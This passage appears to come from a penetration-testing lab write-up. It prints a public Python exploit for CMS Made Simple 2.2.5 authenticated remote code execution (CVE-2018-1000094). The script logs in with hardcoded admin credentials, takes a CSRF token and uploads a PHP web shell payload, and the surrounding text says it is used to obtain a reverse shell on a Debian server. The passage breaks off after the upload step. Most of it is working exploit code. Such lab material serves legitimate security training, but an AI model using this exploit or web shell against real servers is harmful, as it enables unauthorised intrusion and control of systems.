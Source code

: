 Once the apache service is started we can run the following exploit (from an earlier section) in order to gain a reverse shell on the Debian server.

```python
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@strukt93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/
# Version: 2.2.5
# CVE: CVE-2018-1000094

import requests
import base64

base_url = "https://192.168.197.44/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "HUYfaw763"

csrf_param = "_sk_"
txt_filename = 'cmsmsrce.txt'
php_filename = 'command.php'
payload = "<?php system($_GET['cmd']);?>"


def parse_csrf_token(location):
    print "[+] String that is being split: " + location
    return location.split(csrf_param + "=")[1]

def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location'])
    print "[-] Authentication failed"
    return None, None

def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
```